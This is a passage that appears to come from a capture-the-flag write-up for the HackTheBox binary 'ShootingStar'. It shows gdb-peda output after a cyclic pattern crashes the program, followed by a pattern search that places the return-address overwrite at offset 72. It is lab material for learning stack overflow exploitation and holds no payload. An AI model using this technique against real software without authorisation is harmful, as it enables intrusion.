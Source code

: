 ```shell
>> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAf
[----------------------------------registers-----------------------------------]
RAX: 0x1a
RBX: 0x7fffffffe6d8 --> 0x7fffffffe9db ("/home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star")
RCX: 0x7ffff7ea30b4 (<write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x1a
RSI: 0x40200c ("\nMay your wish come true!\n")
RDI: 0x1
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7fffffffe5b8 ("IAAeAA4AAJAAf\n")
RIP: 0x4011ec (<star+170>:  ret)
R8 : 0x4012d0 (<__libc_csu_fini>:   ret)
R9 : 0x7ffff7fce890 (endbr64)
R10: 0x3
R11: 0x202
R12: 0x0
R13: 0x7fffffffe6e8 --> 0x7fffffffea29 ("SHELL=/bin/bash")
R14: 0x0
R15: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011e5 <star+163>: call   0x401030 <write@plt>
   0x4011ea <star+168>: nop
   0x4011eb <star+169>: leave
=> 0x4011ec <star+170>: ret
   0x4011ed <setup>:    push   rbp
   0x4011ee <setup+1>:  mov    rbp,rsp
   0x4011f1 <setup+4>:  mov    rax,QWORD PTR [rip+0x2e58]        # 0x404050 <stdin@@GLIBC_2.2.5>
   0x4011f8 <setup+11>: mov    ecx,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe5b8 ("IAAeAA4AAJAAf\n")
0008| 0x7fffffffe5c0 --> 0xa6641414a41 ('AJAAf\n')
0016| 0x7fffffffe5c8 --> 0x7ffff7dcf290 (mov    edi,eax)
0024| 0x7fffffffe5d0 --> 0x7fffffffe6c0 --> 0x7fffffffe6c8 --> 0x38 ('8')
0032| 0x7fffffffe5d8 --> 0x401230 (<main>:  push   rbp)
0040| 0x7fffffffe5e0 --> 0x100400040
0048| 0x7fffffffe5e8 --> 0x7fffffffe6d8 --> 0x7fffffffe9db ("/home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star")
0056| 0x7fffffffe5f0 --> 0x7fffffffe6d8 --> 0x7fffffffe9db ("/home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ec in star ()
```
Search offset:

```shell
gdb-peda$ pattern search
Registers contain pattern buffer:
RBP+0 found at offset: 64
Registers point to pattern buffer:
[RSP] --> offset 72 - size ~15
Pattern buffer found at:
0x00007fffffffe570 : offset    0 - size   85 ($sp + -0x48 [-18 dwords])
Reference to pattern buffer not found in memory
gdb-peda$
```
